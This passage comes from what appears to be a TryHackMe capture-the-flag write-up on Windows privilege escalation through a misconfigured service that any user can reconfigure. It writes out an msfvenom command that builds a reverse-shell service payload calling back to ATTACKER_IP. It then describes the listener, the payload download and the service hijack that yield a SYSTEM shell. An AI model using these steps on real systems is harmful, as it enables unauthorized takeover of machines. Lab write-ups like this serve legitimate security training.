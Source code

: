 This would enable us to run any executable, with any account, including SYSTEM.

#### 5.3.1

From the command line of the Windows machine, we can use [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite.

Here we see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure this service.

![Pasted image 20231103142938](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/db524a85-a14e-43c5-a32c-931dc1d1bc2f)

#### 5.3.2

As we've done previously, we'll build an exe-service reverse shell on the Attacking Machine, again changing the LPORT to 4447 and the payload to rev-svc3.exe:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`

Start the python server, and create a netcat listener on the Attacking Machine:

![Pasted image 20231103144212](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/c6e3b742-089e-4ace-9bc8-45869686c7e2)

![Pasted image 20231103144123](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/9df0a611-7e91-4a0e-be61-b74726004382)

#### 5.3.3

Again, use PowerShell to grab the payload, and this time we can keep it in the `C:\Users\thm-unpriv\` location.

![Pasted image 20231103145623](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/457b5f73-22aa-4c97-bb1d-21715e645ca2)

Grant permissions to Everyone in order to execute the payload:

![Pasted image 20231103145359](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/5ef1df3b-59d3-41e3-93b7-d36e7d17b3d5)

Now, to change the service's executable and account, use the following command:

![Pasted image 20231103150424](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/f9adb45c-f327-44b9-8b73-4fb834252abd)

Note above, that the command to start the service returned an error "the service has not been started". I started the service and returned to the listener on the AttackBox and received the shell with SYSTEM privileges:

![Pasted image 20231103150249](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/e66fcf5e-9834-47ed-97c4-db0c7d20c863)

Now we have our flag and can answer Q3!

![Pasted image 20231103150926](https://github.com/ne1atonin/TryHackMe-WriteUps/assets/135453212/1849cbe0-3ada-4e65-8df1-e0d523b2c32b)

On to the next one...
* * *

# Task 6
